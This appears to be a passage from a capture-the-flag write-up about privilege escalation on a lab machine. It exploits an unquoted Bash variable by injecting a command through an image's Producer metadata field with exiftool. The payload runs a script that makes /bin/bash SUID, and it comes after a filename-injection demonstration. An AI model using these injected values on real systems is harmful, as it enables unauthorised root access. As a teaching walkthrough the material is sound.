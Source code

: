 In Bash, a single quote would treat all characters within the quotes as strings and not process it. If it is in double quotes, **variables and expressions will be processed.**

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

So, in this case, we need to find a way to inject commands into the Producer variable in Bash. Here are some resources I've found when researching this:

{% embed url="https://stackoverflow.com/questions/65399335/unquoted-expression-injection-bash" %}

{% embed url="https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells" %}

The second one was the most interesting. Through naming a file a specific thing, we are able to inject commands into it:

```
$ touch x 'x -a a[0$(uname>&2)] -gt 1'
$ ksh -c 'for f in *; do [ -f $f ]; done'
Linux
```

The Producer field of this file is the vulnerability here. I tested this out on my machine, and it works.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Now, we can exploit this by creating a simple PE bash script to make `/bin/bash` an SUID binary. Then, we can change the Producer field to make the machine execute our script.

{% code overflow="wrap" %}
```bash
/usr/bin/exiftool -Producer="a[0\$(/dev/shm/pe.sh>&2)]" /tmp/sample.png
```
{% endcode %}

Then, we wait till it executes our script.

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

Interesting foothold, weird enumeration and really interesting PE through the unquoted variables.&#x20;
